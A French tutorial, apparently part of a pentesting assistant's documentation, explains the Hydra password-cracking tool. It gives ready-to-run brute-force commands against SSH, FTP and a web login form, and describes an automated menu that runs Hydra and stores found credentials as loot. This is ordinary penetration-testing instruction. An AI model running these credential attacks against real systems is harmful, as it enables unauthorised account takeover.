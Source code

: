 # Tutoriel : Hydra

Hydra est souvent décrit comme "la brute des services en ligne". C'est un outil de craquage de mots de passe en réseau, extrêmement rapide et flexible, qui permet de tenter de se connecter à un très grand nombre de services en essayant une liste de noms d'utilisateurs et de mots de passe.

---

## À quoi ça sert ?

Si un scan Nmap révèle un port ouvert pour un service d'authentification (comme SSH, FTP, Telnet, ou un formulaire web), Hydra est l'outil à utiliser pour tenter de deviner les identifiants.

Services supportés :

-   SSH, FTP, Telnet
-   HTTP/HTTPS (formulaires de connexion)
-   Bases de données (MySQL, Postgres...)
-   SMB, RDP, et bien d'autres.

---

## Utilisation et Exemples

La syntaxe de base d'Hydra peut sembler complexe, mais elle est très puissante.

```bash
# Syntaxe générale
hydra -l <utilisateur> -P <fichier_mots_de_passe> <IP_cible> <service>
```

- `-l` : Spécifie un nom d'utilisateur unique.
- `-L` : Spécifie un fichier contenant une liste de noms d'utilisateurs.
- `-p` : Spécifie un mot de passe unique.
- `-P` : Spécifie un fichier contenant une liste de mots de passe.
- `-t` : Nombre de tâches parallèles (threads) pour accélérer l'attaque.

### Exemples concrets

```bash
# Attaquer un service SSH avec l'utilisateur 'root' et une liste de mots de passe
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.5 ssh

# Attaquer un service FTP avec une liste d'utilisateurs et un seul mot de passe
hydra -L users.txt -p password123 ftp://192.168.1.5

# Attaquer un formulaire de connexion web (plus complexe)
hydra -l admin -P pass.txt 192.168.1.5 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Login incorrect"
```

---

### 💡 L'Aide du Copilote

Le menu `Password Attacks > Hydra` est l'un des meilleurs exemples d'assistance du copilote.

1.  **Sélection de la Cible :** Le script vous propose automatiquement une liste de cibles issues du butin. Fini les copier-coller d'adresses IP.
2.  **Guidage :** Il vous demande simplement le nom d'utilisateur et le service à attaquer.
3.  **Sélection de Wordlist :** Il vous propose un choix de wordlists (rapide, complète, personnalisée) pour vous éviter de chercher les chemins.
4.  **Automatisation et Analyse :** Le script construit la commande complexe pour vous, la lance, et **analyse les résultats**. S'il trouve un mot de passe valide, il l'affiche en grand, le surligne, et surtout, **l'ajoute automatiquement au butin (`loot.csv`)** avec le type `CREDENTIAL`.

**Avantage :** Le copilote ne se contente pas de lancer l'outil. Il vous guide, automatise la commande, et surtout, il interprète le résultat pour enrichir intelligemment votre base de connaissances sur la cible. C'est un gain de temps et d'efficacité considérable.
